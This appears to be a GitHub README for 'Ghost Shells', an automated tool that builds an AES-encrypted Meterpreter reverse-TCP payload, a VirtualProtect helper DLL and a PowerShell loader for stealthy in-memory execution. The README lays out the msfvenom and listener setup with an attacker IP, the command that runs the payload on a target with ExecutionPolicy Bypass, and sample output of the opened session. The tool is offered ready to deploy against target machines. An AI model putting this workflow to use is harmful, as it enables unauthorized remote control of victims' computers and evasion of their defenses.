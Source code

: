 Here's an **automated Python script** that fully implements the **Ghost Shells** technique. This script will:

1. **Generate a Meterpreter Payload** using `msfvenom`.
2. **Encrypt the shellcode using AES (CBC Mode)**.
3. **Embed the encrypted shellcode into a PowerShell script**.
4. **Automatically generate and compile `API.dll`** (for `VirtualProtect` memory modification).
5. **Create a final `execute.ps1` PowerShell script** to:
   - Load `API.dll`.
   - Decrypt the AES shellcode.
   - Allocate executable memory.
   - Execute the shellcode stealthily.

---

### **💻 How to Use**
#### **Step 1: Run the Python Script**
```bash
python3 ghost_shells.py
```
#### **Step 2: Transfer `execute.ps1` and `API.dll` to the Target Machine**
```powershell
powershell -ExecutionPolicy Bypass -File execute.ps1
```
#### **Step 3: Start Metasploit Listener**
```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT <attacker-port>
exploit
```

---

### **📌 How the Python Script Works - Step by Step Example**
---
### **🔹 Step 1: Run the Script**
```bash
python3 ghost_shells.py
```
---
### **🔹 Step 2: The Script Will Prompt for User Input**
```bash
[+] Ghost Shells - Automated Meterpreter Deployment
[?] Enter LHOST (attacker IP): 192.168.1.100
[?] Enter LPORT (listening port): 4444
[+] Generating Meterpreter shellcode...
```
**(It will then generate a Meterpreter shellcode using `msfvenom`)**
```bash
[+] Encrypting shellcode using AES...
[+] Compiling API.dll...
[+] PowerShell script 'execute.ps1' created.
[+] Ghost Shells deployment ready!
```
---
### **🔹 Step 3: The Script Will Automatically Start a Metasploit Listener**
```bash
[+] Starting Metasploit listener...
```
The script will create a **Metasploit resource file** (`msf_listener.rc`) with the following content:
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
set ExitOnSession false
exploit -j
```
Then, it **automatically starts Metasploit**:
```bash
msfconsole -r msf_listener.rc
```
---
### **🔹 Step 4: Transfer and Execute the Payload on the Target**
After the script finishes, you'll have **two files**:
- `API.dll` (used for `VirtualProtect`)
- `execute.ps1` (decrypts and executes Meterpreter shellcode)

**Now, transfer these files to the target machine and run:**
```powershell
powershell -ExecutionPolicy Bypass -File execute.ps1
```
---
### **🔹 Step 5: The Reverse Shell is Established**
Once the payload is executed, the Meterpreter session will be opened:
```bash
[*] Started reverse TCP handler on 192.168.1.100:4444
[*] Meterpreter session 1 opened (192.168.1.100:4444 -> 192.168.1.200:49627)
```
---
### **✅ Final Confirmation**
Now, you have a full **Meterpreter shell**:
```bash
meterpreter > sysinfo
Computer        : TARGET-PC
OS             : Windows 10 (10.0 Build 19044)
Meterpreter    : x64/windows
```
---
### **🔥 Automated & Hands-Free**
- **No manual setup needed!**
- **Asks for LHOST and LPORT**
- **Generates & encrypts shellcode**
- **Compiles API.dll**
- **Starts the Metasploit listener**
- **Creates a PowerShell script for execution**

### **🔹 Pre-Installed Tools Needed in Kali Linux**
To execute this **automated Ghost Shells Python script**, you need the following **tools pre-installed** in **Kali Linux**:

| **Tool**          | **Purpose** |
|-------------------|------------|
| **Metasploit Framework (`msfvenom`, `msfconsole`)** | To generate the **Meterpreter shellcode** and start a **listener** |
| **Mono (`mcs`)** | To compile `API.cs` into `API.dll` for **VirtualProtect memory modification** |
| **Python3** | To run the automation script |
| **Python Crypto (`pycryptodome`)** | To **encrypt the shellcode using AES** |
| **PowerShell (Kali)** | To test **PowerShell execution** before deploying to Windows |

---

### **🔧 Install Required Tools**
#### **1️⃣ Update and Upgrade Kali**
Run the following commands to ensure your Kali is up to date:
```bash
sudo apt update && sudo apt upgrade -y
```

#### **2️⃣ Install the Metasploit Framework**
Metasploit is **pre-installed** in Kali, but if missing, install it:
```bash
sudo apt install metasploit-framework -y
```
✅ **Verify installation**:
```bash
msfconsole --version
```

#### **3️⃣ Install `Mono` (To Compile API.dll)**
Since we use C# to compile `API.dll`, install `Mono`:
```bash
sudo apt install mono-mcs -y
```
✅ **Verify installation**:
```bash
mcs --version
```

#### **4️⃣ Install `pycryptodome` (For AES Encryption)**
The script uses Python's **Crypto module** for AES encryption. Install it using:
```bash
pip3 install pycryptodome
```
✅ **Verify installation**:
```bash
python3 -c "from Crypto.Cipher import AES; print('Crypto Installed')"
```

#### **5️⃣ (Optional) Install PowerShell in Kali**
If you want to test the **PowerShell script** in Kali before deploying to Windows, install PowerShell:
```bash
sudo apt install powershell -y
```
✅ **Run PowerShell in Kali**:
```bash
pwsh
```

---

### **✅ Final Check: Run the Script**
After installing all dependencies, run:
```bash
python3 ghost_shells.py
```
If everything is installed correctly, it should:
✔ Generate the **Meterpreter shellcode**  
✔ Encrypt the **shellcode using AES**  
✔ Compile **API.dll** using `mcs`  
✔ Start **Metasploit listener**  
✔ Generate **execute.ps1** for Windows  

---
### **🚀 You're Now Ready to Deploy Ghost Shells!**
Help me if you face any issue in the code, or correct me if anything is wrong
